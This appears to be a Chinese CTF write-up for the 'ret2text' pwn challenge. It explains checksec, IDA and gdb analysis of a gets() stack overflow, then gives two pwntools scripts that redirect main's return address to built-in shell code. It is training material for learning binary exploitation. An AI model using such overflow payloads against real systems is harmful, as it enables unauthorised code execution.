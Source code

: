 实验环境：

* Ubuntu 22.04.2
* python 3.10.6
* pwntools 4.9.0
* gdb 12.1(pwndbg 2023.03.19) 

# ret2text

## 检查安全机制

checksec检查题目文件的保护机制：

![image-20230415192714541](md.image/report/image-20230415192714541.png)

发现开启了NX，说明不能直接在栈上写shellcode

## 程序分析

IDA反汇编查看伪代码，发现了溢出点

![image-20230415192840938](md.image/report/image-20230415192840938.png)

变量`s`使用`gets`函数填充，存在溢出风险，能覆盖`main`函数的返回地址

> 做题的时候这里有个误解，以为要溢出覆盖的是`gets`函数的返回地址
> 经检查后发现，`s`是作为`main`函数的局部变量，存在于`main`函数的栈帧中，因此溢出覆盖的是`mian`函数的返回地址

检查程序其他代码，发现有能直接getshell的代码

![image-20230415194749193](md.image/report/image-20230415194749193.png)

开始执行这段代码的地址是0x0804863A，因此用这个位置覆盖掉`main`函数的返回地址就能getshell

![image-20230415194846045](md.image/report/image-20230415194846045.png)

下面要计算`s`到`$ebp`的距离，有两种方法



**1 从IDA中获取**

~~IDA反汇编直接就给出了`s`相对于`$ebp`的偏移是-0x64~~

![image-20230415200653083](md.image/report/image-20230415200653083.png)

~~因此`main`函数的返回地址的末尾就是0x64 + 0x04(`$ebp`) = 0x68。栈结构图如下：~~

> 这里踩了坑，这里给出的变量`s`相对于`$ebp`的距离0x64是不对的，得查看程序中具体的对`s`的寻址方式
> 回到汇编代码中，可以看到`s`的寻址方式是根据`$esp`的寻址
>
> ![image-20230415211314364](md.image/report/image-20230415211314364.png)
>
> 这种情况就还是要用动态调试找出`s`与`$ebp`之间的距离



可以看到，`s`相对于`$esp`的距离是0x1c，找出程序运行`gets`前`$esp`的值，即可计算`s`的地址

找出调用`gets`的代码地址为0x080486AE

![image-20230415194002362](md.image/report/image-20230415194002362.png)

gdb在此处下断点

![image-20230415194132937](md.image/report/image-20230415194132937.png)

“r”命令运行程序，到断点处中断，找出此时`$esp`的值是0xffffd580，`$ebp`的值是0xffffd608

![image-20230415194417691](md.image/report/image-20230415194417691.png)

因此`$ebp`到`s`的距离是(0xffffd608 - (0xffffd580 + 0x1c))，再加0x04覆盖掉`main`的栈基址内容，就是`mian`函数的返回地址。得到栈结构如下：

![ret2text-2](md.image/report/ret2text-2.png)

 

**2 根据函数调用特点**

调用`gets`之前需要将`s`的地址写入`$eax`，因此可以动态调试出`s`的地址。下图的汇编代码证实了这点：

![image-20230415213502123](md.image/report/image-20230415213502123.png)

因此同上一种方法一样，在`gets`函数调用处下断点，再运行程序，查看此时`$eax`的值为0xffffd59c，`$ebp`的值是0xffffd608

![image-20230415213716772](md.image/report/image-20230415213716772.png)

因此`s`到`$ebp`的距离为(0xffffd608 - 0xffffd59c)，再加0x04覆盖掉`main`的栈基址内容，就是`mian`函数的返回地址。得到栈结构如下：

![ret2text-3](md.image/report/ret2text-3.png)

## payload

第一种方法：

```python
from pwn import *
import pwnlib.util.packing

sh = process("./ret2text")

addr_shell = 0x0804863A
addr_esp = 0xffffd580
addr_ebp = 0xffffd608
offset_esp = 0x1c

len_ebp = addr_ebp - (addr_esp + offset_esp)

payload = b'a'*len_ebp + b'bbbb' + packing.p32(addr_shell)

sh.sendline(payload)
sh.interactive()
```

执行结果如下：

![image-20230415213036806](md.image/report/image-20230415213036806.png)

第二种方法可以得到同样的结果：

```python
from pwn import *
import pwnlib.util.packing

sh = process("./ret2text")

addr_shell = 0x0804863A
addr_ebp = 0xffffd608
addr_s = 0xffffd59c

len_ebp = addr_ebp - addr_s

payload = b'a'*len_ebp + b'bbbb' + packing.p32(addr_shell)

sh.sendline(payload)
sh.interactive()
```

# ret2shellcode

